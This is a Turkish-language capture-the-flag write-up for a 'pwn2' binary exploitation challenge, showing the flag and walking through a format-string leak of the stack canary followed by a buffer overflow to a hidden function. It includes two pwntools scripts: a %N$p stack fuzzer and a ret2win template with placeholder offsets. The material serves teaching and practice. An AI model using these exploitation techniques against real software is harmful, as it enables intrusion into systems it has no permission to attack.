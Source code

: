 # pwn2 - PWN

flag: `SKYSEC{C0NGR4TS_Y0U_3SC4P3D_TH3_M4TR1X}`

# Writeup

Bu yazı YTÜ SKYLAB kulübünün düzenlediği SKYDAYS etkinliğindeki CTF
yarışmasındaki sorunun çözümünü anlatmaktadır. Sorunun tek çözümü bu
değildir, başka çözümler olabilmektedir.

# Soru

Bize verilen dosyayı çalıştırdığımızda şöyle bir ekran karşımıza çıkmakta:

![0](assets/0.png)

Bizden iki kere girdi alıyor ve ilk girdimizi ekrana yazdırıyor.

# Çözüm

Dosyayı inceleyelim:

![1](assets/1.png)

![2](assets/2.png)

Dosyamız 64-bit ve Canary aktif.

![3](assets/3.png)

Dosyadaki vuln() fonksiyonumuza bakarsak burada iki adet zaafiyetle karşılaşıyoruz:
1-printf(buffer); kodu bizim bellekten değer okumamıza kapı açıyor.
2-gets(buffer); kodu buffer’ın üzerine istediğimiz değerleri yazmamızı sağlıyor.

![4](assets/4.png)

![5](assets/5.png)

Yukarıdaki iki fonksiyona baktığımızda ise şunları görüyoruz:
*flag* fonksiyonu anlaşılabildiği üzere flag’imizi içeriyor fakat daha öncesinde “What is the password?” diye bir çıktı alıyoruz. Yani bir tür şifreye ihtiyacımız var.
*notaflaglol* fonksiyonumuzun bize verdiği çıktıdan önce “What is this string for?” çıktısını alıyoruz. Bu fonksiyondan elde edeceğimiz değer bizim şifremiz olabilir.

Tüm bu analizin sonucunda çözüm yolumuzu oluşturabiliriz:
1-Canary aktif. Programı manipüle ederken canary’i korumalıyız.
2-Buffer overflow ile önce *notaflaglol* fonksiyonuna erişmeli ve şifreyi almalıyız.
3-Daha sonra yine buffer overflow ile *flag* fonksiyonuna erişip şifreyi girip bayrağı elde etmeliyiz.

Bunun için önce bellekten değerleri okuyup canary’nin değerini öğrenmeliyiz. Bunu şöyle bir script ile yapabiliriz:

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./chal', checksec=False)

# Let's fuzz x values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process(level='error')
        # Format the counter
        # e.g. %2$s will attempt to print [i]th pointer/string/hex/char/int
        p.sendline('%{}$p'.format(i).encode())
        p.recvline()
        # Receive the response
        result = p.recvline().decode()
        # If the item from the stack isn't empty, print it
        if result:
            print(str(i) + ': ' + str(result).strip())
    except EOFError:
        pass

```

Peki bunlardan hangisinin canary olduğunu nasıl bileceğiz? Canary için aradığımız değer “00’ ile bitmeli, “ff” veya “f7” ile başlamamalı. Script’i çalıştırdığımızda bu koşulları sağlayan ve değişmeyen değer bizim olası canary’miz olacak. Canary’i bulduktan sonra şu tarz bir script template’i ile istediğimiz bir fonksiyona erişebiliriz:

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Set up pwntools for the correct architecture
exe = './chal'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 00  # Buraya BOF için offset'imizi yazıyoruz.

# Leak canary value (NUMBERX on stack)
io.sendlineafter(b'!', '%{}$p'.format('NUMBERX').encode())
io.recvline()  # Blank line
canary = int(io.recvline().strip(), 16)
info('canary = 0x%x (%d)', canary, canary)

# Build payload (ret2win)
payload = flat([
    offset * b'A',  # BOF için offset/garbage value
    canary,  # Canary'miz
    00 * b'A',  # Garbage value (NOT!: buradaki değer 32bit/64bit mimarilerde farklılık gösterecektir)
    elf.symbols.hacked  # dönmek istediğimiz fonksiyon: önce notaflaglol sonra flag
])

# Send the payload
io.sendlineafter(b':P', payload)

# Get our flag/shell
io.interactive()

```

Bunları dosyamıza göre ayarladığımızda elde edeceğimiz çıktılar:
Şifremiz:

![6](assets/6.png)

Flag:

![7](assets/7.png)

---

Daha fazla benzer örnek için bakabilirsiniz: [https://www.youtube.com/watch?v=wa3sMSdLyHw&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94](https://www.youtube.com/watch?v=wa3sMSdLyHw&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94)
